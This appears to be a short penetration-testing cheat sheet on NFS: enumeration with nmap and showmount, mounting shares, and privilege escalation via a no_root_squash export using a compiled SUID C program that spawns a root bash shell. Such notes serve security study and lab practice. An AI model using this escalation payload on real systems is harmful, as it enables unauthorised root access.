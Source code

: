 Default ports: 111 (RPC), 2049 (NFS)
Config file: `/etc/exports`

(Nmap) NFS enumeration
```bash
nmap --script nfs* 192.168.101.225 -p 111,2049
```
Mountable shares NFS
```bash
showmount -e 192.168.101.225
```
Mounting NFS
```bash
mkdir target-NFS
sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock
```
Unmounting
```bash
sudo unmount ./target-NFS
```
### Privilege Escalation: NFS Root Squashing
`no_root_squash` permission in `/etc/exports` => root privileges when mount

```bash
mount -o rw,vers=2 10.129.14.128:/<TARGET_MOUNT> /PATH/TO/BE/MONTED
vim suid-shell.c
gcc suid-shell.c -o suid
chmod u+s suid
```
Payload to create on mount
```c
// suid-shell.c

#include <stdio.h> 

int main() { 
	setuid(0); 
	setgid(0); 
	system("/bin/bash"); 
	return 0; 
}
```
